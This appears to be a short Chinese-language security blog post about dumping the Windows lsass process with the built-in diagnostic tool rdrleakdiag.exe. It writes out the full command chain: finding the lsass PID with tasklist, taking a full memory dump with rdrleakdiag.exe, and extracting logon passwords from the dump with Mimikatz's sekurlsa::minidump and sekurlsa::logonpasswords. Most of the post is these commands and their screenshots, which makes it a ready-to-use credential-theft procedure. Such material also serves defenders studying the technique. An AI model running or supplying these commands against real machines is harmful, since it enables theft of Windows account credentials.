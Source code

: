 ```yaml
---
layout: post
title: "使用 rdrleakdiag.exe 转储进程"
tags: [Process_Dump, Tricks]
comments: true
---
```


# rdrleakdiag.exe

最近在 Twitter 看到有安全研究员公示了一个用于进程转储的工具，且在 Windows 的多版本中属于系统自带的程序，如果目标不存在此程序，也可以上传执行，程序本身的目的是用于资源泄露诊断，但是现在可以利用它转储指定的进程，推主贴出了用于进程转储的参数；

![](https://xxxeyj.github.io/images/20-09-15_ONE.PNG)

在 Windows 10 操作系统共发现了四个  "rdrleakdiag.exe" 程序；

在这里我们以 " C:\\Windows\System32" 目录下的 "rdrleakdiag.exe" 用作测试，首先使用 cmd 命令查找 lsass 进程的 pid；

```cmd
tasklist /svc | findstr lsass
```

![](https://xxxeyj.github.io/images/20-09-15_TWO.PNG)

可以看到 lsass 的进程 pid 为 548；

使用如下命令转储进程；
```cmd
rdrleakdiag.exe /p 548 /o C:\Users\Administrator\Desktop\ /fullmemdmp /wait 1
```
![](https://xxxeyj.github.io/images/20-09-15_THREE.PNG)

可以看到桌面上已经生成了两个文件，将其 dmp 拷贝至 Mimikatz 目录下，而后使用 Mimikatz 载入 dmp 文件，使用如下两条命令即可；
```mimikatz
sekurlsa::minidump minidump_548.dmp
sekurlsa::logonpasswords
```
![](https://xxxeyj.github.io/images/20-09-15_FOUR.PNG)

## Reference

https://twitter.com/0gtweet/status/1299071304805560321
